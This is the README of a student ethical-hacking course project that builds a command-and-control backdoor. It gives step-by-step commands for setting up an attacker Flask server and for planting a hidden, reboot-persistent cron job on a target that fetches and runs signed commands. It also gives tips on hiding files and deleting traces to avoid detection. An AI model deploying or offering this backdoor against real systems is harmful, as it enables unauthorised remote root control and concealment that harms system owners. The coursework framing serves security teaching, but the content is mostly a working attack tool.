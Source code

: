 # Command-Control

## CS378 Ethical Hacking - Command and Control

David Trakhtengerts : dst726 and Ricky Woodruff : rgw664

## Install

### Attack Machine

1. Install dependencies

    ```bash
    cd server
    pip3 install -r requirements.txt
    ```
2. Generate a key pair
    
    Keys should be generated and stored in the `server` directory

    ```bash
    openssl genrsa -out private.pem 1024
    openssl rsa -in private.pem -pubout -out public.pem
    ```
3. Create a `commands.txt` file and fill it with commands to run on the target machine. Each command should be on a new line.

    ```bash
    echo $'pwd\nwhoami\nls' > commands.txt
    ```
4. Run the flask server

    ```bash
    export FLASK_APP=attacker-server.py
    flask run --host={Server IP} # server should be reachable from target machine
    # Example: flask run --host=10.0.2.4
    ```


### Target Machine

1. Download the backdoor repo

    ```bash
    curl -L http://github.com/woodruffr4/Command-Control/archive/main.tar.gz | tar zxf -
    ```
2. From the **attacker machine**, manually copy the contents of public key (`public.pem`) to the `/client` directory on the **target machine**. The new public key should also be named `public.pem`.
    
3. Run the setup script

    ```bash
    cd Command-Control-main/client
    chmod +x setup.sh
    ./setup.sh {Your Server Endpoint}
    # Example: ./setup.sh http://10.0.2.4:5000/commands
    ```
4. Done!

    Additionally, you may delete the `Command-Control-main` directory to avoid detection on the target machine.



## How it works

There are two parts to this backdoor, the flask server on the attacker side and the cron job on the target side.

### Cron job

The cron job runs every minute and calls a python script which makes a request to the `/commands` endpoint on the flask server. The server returns a signature and the commands to run. The signature will be verified using the public key and if it is valid, the commands will be run. The output of the commands is forwarded to a log file on the target machine.

### Flask Server

The flask server has one endpoint, `/commands`. This endpoint is used to send commands to the target machine.
The server reads the commands from a file `commands.txt`, and deletes the contents after (to avoid re-executing commands). It then signs the commands with a private key, and sends the signature along with the commands to the target machine.


## How it meets the requirements

1. Provide remote root shell access
    - The attacker can write commands in a file on a machine and the target machine will execute those commands.
2. Persistence
    - The target machine can reboot, and this backdoor will persist automatically because cron jobs are run on boot by default.
3. Configuration
    - The attacker can add commands to the file on their machine.
    - The attacker can configure the server ip, port, and endpoint that the commands come from.
4. Authentication
    - The attacker and target machines use a public/private key pair to authenticate each other.
    - Only the attacker who created the key pair will be able to send commands to the target machine.
5. Hiding
    - Cron job is only visible to root users (typically)
    - All cron related files are hidden by a period in front of the file name to hide from simple `ls` commands

## Detection

- At the user level there is no way to detect this backdoor because users do not have access to the cron directory.
- Root users can see the cron job, .cron.py (if they look closely), and the log file.

